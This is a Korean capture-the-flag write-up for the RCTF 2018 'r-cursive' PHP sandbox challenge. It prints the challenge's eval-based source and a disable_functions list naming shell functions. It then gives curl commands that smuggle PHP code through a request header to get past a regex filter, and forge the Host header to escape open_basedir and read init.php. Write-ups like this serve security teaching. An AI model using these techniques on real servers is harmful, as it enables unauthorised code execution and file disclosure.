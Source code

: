 # RCTF 2018 Quals 

## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```html
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```html
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```



FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}

